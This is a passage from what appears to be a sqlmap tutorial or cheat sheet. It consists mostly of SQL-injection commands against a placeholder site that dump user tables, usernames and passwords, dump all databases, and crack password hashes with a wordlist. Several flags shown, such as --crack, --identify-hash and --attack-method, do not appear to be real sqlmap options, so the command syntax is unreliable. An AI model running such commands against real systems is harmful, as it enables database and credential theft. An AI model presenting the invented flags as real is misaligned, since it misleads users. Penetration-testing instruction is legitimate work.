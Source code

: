     # Dump specific columns
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" \
      -C "username,password" --dump

    # Dump with conditions
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" \
      --dump --where "id>1 AND role='admin'"

    # Dump first/last entries
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" \
      --dump --start=1 --stop=10

    # Dump all databases (dangerous)
    python sqlmap.py -u "http://target.com/page?id=1" --dump-all --exclude-sysdbs
:::
:::

### Password Hash Analysis

::: code-block
    # Identify hash formats
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" \
      -C "password" --dump --identify-hash

    # Crack password hashes
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" \
      -C "password" --dump --crack --wordlist=/usr/share/wordlists/rockyou.txt

    # Custom cracking options
    python sqlmap.py -u "http://target.com/page?id=1" -D "testdb" -T "users" \
      -C "password" --dump --crack --hash-format=MD5 --attack-method=dictionary
:::

::: info
**ℹ️ Hash Cracking:** SQLMap can automatically identify common hash
formats (MD5, SHA1, SHA256) and attempt to crack them using dictionary
attacks with popular wordlists.
:::
:::

::: {#advanced-features .section .section}
## Advanced Features
